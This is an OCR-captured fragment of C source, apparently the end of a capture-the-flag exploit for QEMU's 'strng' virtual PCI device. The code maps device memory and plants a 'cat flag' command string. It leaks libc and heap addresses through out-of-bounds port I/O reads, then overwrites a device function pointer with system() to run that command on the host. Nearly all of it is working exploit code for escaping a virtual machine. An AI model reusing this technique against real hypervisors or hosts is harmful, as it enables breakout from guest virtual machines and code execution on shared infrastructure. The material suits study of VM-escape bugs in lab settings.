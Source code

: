 ```c
}

void pmio_abwrite(uint32_t offset,uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main()
{
// Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
    //pmio_abwrite(0x100,0x12345678);
    //write args

    mmio_write(12,0x6d6f682f);
    mmio_write(16,0x7a772f65);
    mmio_write(20,0x616c662f);
    mmio_write(24,0x67);
    mmio_write(8,0x20746163);
    //set priviledge
    if(iopl(3) != 0){
        die("IO permission denied!\n");
    }
    //leak libc
	uint64_t srandom_addr=pmio_abread(66<<2);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_abread(65<<2);
    printf("[+]srandom addr: 0x%llx\n",srandom_addr);
    uint64_t libc_base = srandom_addr - 0x3a8d0;
    uint64_t system_addr = libc_base + 0x45390;
    printf("[+]libc base: 0x%llx\n",libc_base);
    //leak heap
    uint32_t heap_offset = (65+7*2+1) << 2;
    uint64_t heap_addr = pmio_abread(heap_offset);
    printf("[+]heap addr: 0x%llx\n",heap_addr);
    heap_addr = heap_addr << 32;
    heap_addr += pmio_abread((65+7*2+2) << 2);
    uint64_t heap_base = heap_addr - 615344;
    printf("[+]heap base: 0x%llx\n",heap_base);
    //get flag
    pmio_abwrite(0x114,system_addr & 0xffffffff);
    mmio_write(0xc,0);
    return 0;
}


```
